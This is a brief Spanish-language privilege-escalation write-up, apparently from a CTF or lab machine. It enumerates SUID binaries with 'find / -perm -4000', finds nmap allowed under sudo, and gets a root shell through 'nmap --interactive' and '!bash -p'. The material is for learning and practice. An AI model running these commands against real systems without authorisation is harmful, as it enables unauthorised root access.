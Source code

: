 ### escalada de privilegios
# Enumeración básica sistema
```css
	find / -perm -4000 2>/dev/null
```

![[Pasted image 20240612145057.png]]
# Permisos sudo
```css
	/usr/local/bin/nmap
```

### parece que esta maquina tiene instalado nmap y lo podemos ejecutar como sudo. asi que vamos a explotar esta vulnerabilidad de la siguiente manera.

utilizamos el comando:
```css
	nmap --interactive
```

![[Pasted image 20240612145105.png]]

### este comando de nmap nos permite ejecutar codigo del sistema utilizando la herramienta nmap.

ahora ejecutamos el llamado de una bash con el siguiente codigo:
```c
	!bash -p
```
### WE ARE ROOT
